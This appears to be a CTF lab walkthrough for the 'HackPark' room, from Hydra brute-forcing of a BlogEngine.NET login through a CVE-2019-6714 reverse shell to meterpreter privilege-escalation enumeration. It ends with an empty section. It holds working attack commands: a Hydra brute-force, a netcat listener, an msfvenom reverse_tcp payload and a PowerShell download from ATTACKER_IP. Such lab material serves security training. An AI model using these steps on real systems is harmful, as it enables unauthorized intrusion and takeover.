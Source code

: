 # HackPark
* Hack Windows with Hydra, Remote Code Execution, and WinPEAS.
## Brute-force a login using Hydra
* Hydra is parallised, fast and flexible login cracker.
* Brute-forcing can be trying every password combination.
* Dictionary brute forcing iterates through a wordlist to obtain the password.
#### 1. Identify login page method.
* Web servers typically make two types of requests.
  * **GET** request used to request data.
  * **POST** used to send data.
1. Right click on login form.
2. **Inspect** element.
3. Enter any credentials and attempt to login
4. Read **Method** field value in **Network** tab.
* Can also identify this by intercepting traffic through BurpSuite.
#### 2. Use Hydra to brute force the login form.
* Login or Wordlist for Usernames = `admin`.
  * Internet search for "blogengine.net" default credentials returns "admin" / "admin".
* Password or Wordlist for Passwords = `/usr/share/wordlists/rockyou.txt`.
* IP address or Hostname = 10.10.85.185.
* HTTP Method (POST/GET) = `http-form-post`.
* Directory/Path to the Login Page = `/Account/login.aspx?ReturnURL=/admin`.
  * Request header **File** attribute.
* Request Body for Username/Password = `"ctl00$MainContent$LoginUser$UserName","ctl00$MainContent$LoginUser$Password","ctl00$MainContent$LoginUser$LoginButton"`
  * **Inspect Element** in browser.
  * **Network** tab of developer tools.
  * Attempt a login.
  * Right click on request > **Edit and Resend**.
  * **Request Body** contains entered username and password.
```
__VIEWSTATE=n2Y4BvVM5bhPxAiXh74eXb7%2F8bdFppITpAKoQzTYg%2F2Om8M2jGykZaw0JQHHB7hSlgHYkUTBvZKICSfpKgSGO7WToz%2F5w8knI%2BcOvKnYLsFIoll7jX6KwikzZLXashyviPyM9cozXH3WjB1ntR6ZDzvWtv11PxlYsmLCF4cBDmyAIQZ8wcagcXhF%2BssBYrpkopBVNWT03AkHUXHBVrSr%2BtiPAHdxdQJgEwOrY2c6otNnHWnwHZ8M%2FwlLhfplATLyIIfw00UzSNyS9IO7iuKLDQfvVv9SlS5LxbJj%2FZiOTaFIwfsvD8GYpSOmkxhb8mnfa46dJ5GYwACBfy1xWPRhtGbfz1gUOunVnQ1n9GjBPnqiWjiD&__EVENTVALIDATION=YN0knyrHqnj2RIDRzLwosbSl6DHwbB8zpiYoY%2FMw4N0J0gthwdTUm6moqRkULBrBukYlEAJq9Mwxc5Yfi4TBMemG8xjPaVMXN2P6AM0MY5ssFs2K93q4Xn4am8cO2wzdh3TMIbY%2BOifwxGGvHMA6RJIHcpVe%2FjrCVFdCaR2RjG%2FhIpRl&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=test&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```
  * Replace entered username with `^USER^ to tell Hydra to enter words from wordlist in this position of the request.
  * Replace entered password with ^PASS^.
* Way to Identify Failed Attempts = `Login failed`.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.85.185 http-form-post "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=n2Y4BvVM5bhPxAiXh74eXb7%2F8bdFppITpAKoQzTYg%2F2Om8M2jGykZaw0JQHHB7hSlgHYkUTBvZKICSfpKgSGO7WToz%2F5w8knI%2BcOvKnYLsFIoll7jX6KwikzZLXashyviPyM9cozXH3WjB1ntR6ZDzvWtv11PxlYsmLCF4cBDmyAIQZ8wcagcXhF%2BssBYrpkopBVNWT03AkHUXHBVrSr%2BtiPAHdxdQJgEwOrY2c6otNnHWnwHZ8M%2FwlLhfplATLyIIfw00UzSNyS9IO7iuKLDQfvVv9SlS5LxbJj%2FZiOTaFIwfsvD8GYpSOmkxhb8mnfa46dJ5GYwACBfy1xWPRhtGbfz1gUOunVnQ1n9GjBPnqiWjiD&__EVENTVALIDATION=YN0knyrHqnj2RIDRzLwosbSl6DHwbB8zpiYoY%2FMw4N0J0gthwdTUm6moqRkULBrBukYlEAJq9Mwxc5Yfi4TBMemG8xjPaVMXN2P6AM0MY5ssFs2K93q4Xn4am8cO2wzdh3TMIbY%2BOifwxGGvHMA6RJIHcpVe%2FjrCVFdCaR2RjG%2FhIpRl&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vV
```
* Valid credentials discovered.
```
[80][http-post-form] host: 10.10.85.185   login: admin   password: 1qaz2wsx
```
* Hydra mini cheatsheet.
| Command | Description
| --- | ---
| `hydra -P <wordlist> -v <ip> <protocol> | Brute force against specific protocol.
| `hydra -v -V -L <username list> -P <password list> -t ` -u <p> <protocol>` | Bruteforce usernames. Loops through every combination in the lists.  `-v -V` verbose mode showing login attempts.
| `hydra -t 1 -V -f -l <username> -P <password list> rdp://<ip>` | Bruteforce Windows Remote Desktop using password list.
| `hydra -l <username> -P <password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | Craft more specific request to bruteforce.
## Compromise the target
#### 1. Identify execute public exploit to gain initial access to Windows target.
* [Exploit-Database](http://www.exploit-db.com/) is Common Vulnerability and Exposures (CVE) archive of public exploits.
  * Used by pentesters and vulnerability researchers.
  * Owned by Offensive Security.
* Log into blogengine.net website on target using bruteforced credentials.
* **Burger menu** > **About** shows version as 3.3.6.0.
* [Identify exploit from Exploit Database](https://www.exploit-db.com/exploits/46353) to gain reverse shell.
  * Application is vulnerable to [CVE-2019-6714](https://nvd.nist.gov/vuln/detail/CVE-2019-6714).
#### 2.Execute public exploit.
* Create "HackPack" folder on attacking machine Desktop.
* Download [exploit from Exploit Database](https://www.exploit-db.com/exploits/46353) into "HackPack" folder.
* Edit exploit with vim.
  * Change **TcpClient** address within the method to the attack host.
  * Save and exit vim.
* Rename exploit to PostView.ascx.
```
mv 46353.cs PostView.ascx
```
* Start reverse TCP listener on attack host.
```
nc -lvnp 4445
```
* Upload PostView.ascx reverse shell to target.
* Use **File Manager** feature.
  * Edit a post > click on icon that looks like an open file in the toolbar.
* Save post.
#### 3. Trigger vulnerability.
* Access base URL for the blog with a theme override specified to exploit path traversal vulnerability leading to remote code execution.
```
http://TARGET_IP/?theme=../../App_Data/files
```
#### 4. Reverse shell caught by listener.
```
Connection from TARGET_IP 49242 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```
## Windows Privilege Escalation
#### 1. Pivot from netcat to meterpreter session.
* Generate another reverse shell using msfvenom.
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai lhost=ATTACKER_IP lport=4446 -f exe -o reverse_shell.exe
```
#### 2. Create http server to serve payload.
* Ensure HTTP server is running from directory where "reverse_shell.exe" is located.
```
python3 -m http.server
```
#### 3. Download payload to target.
* Browse to `c:\windows\temp` as this directory is generally world writable.
```
powershell -c "Invoke-WebRequest -Uri 'http://ATTACKER_IP:8000/reverse_shell.exe' -OutFile 'c:\windows\temp\reverse_shell.exe'"
```
#### 3. Verify handler is set up in Metasploit.
* Use Metasploit handler to receive incoming connection from reverse shell.
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost ATTACKER_IP
set lport 4446
exploit
```
#### 4. Start reverse shell on target.
```
.\reverse_shell.exe
```
#### 5. Meterpreter reverse shell spawned.
```
[*] Meterpreter session 1 opened (ATTACKER_IP:4446 -> TARGET_IP:49294) at 2024-02-26 11:49:46 +0000
getuid
Server username: IIS APPPOOL\Blog
```
#### 6. Use meterperter session to enumerate target to identify potential vulnerabilities.
* Run [WES-NG: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng) script to quickly identify obvious vulnerabilities.
* Runs on attack host to avoid making unnecessary noise on target that can attract attention.
1. Clone GitHub respository.
```
git clone https://github.com/bitsadmin/wesng --depth 1
```
2. Obtain latest database of vulnerabilities.
  * Database used to check for missing patches that can result in vulnerabilities allowing elevation of privileges on target.
```
wes.py --update
```
* `shell` to drop meterperter shell into command shell.
3. Use Windows `systeminfo.exe` on target to check for missing patches.
  * Redirect systeminfo output to file.
```
systeminfo.exe > systeminfo.txt
```
4. Download systeminfo file to attack host.
* `exit` to close command shell and return to meterpreter shell.
```
download ./systeminfo.txt /root/Desktop/HackPark
```
5. Feed system information into WES-NG./ script.
```
./wesng/wes.py systeminfo.txt > wesng.txt
```
* Download WinPEAS to attacking machine.
```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20240225-d29d697a/winPEAS.bat
```
Upload WinPEAS to target and execute script.
```
upload root/Desktop/HackPark/winpeas.bat
.\winpeas.bat > winpeas.txt
```

#### 7. Use gathered information to exploit target and become Administrator.
```

```
## Privilege Escalation Without Metasploit

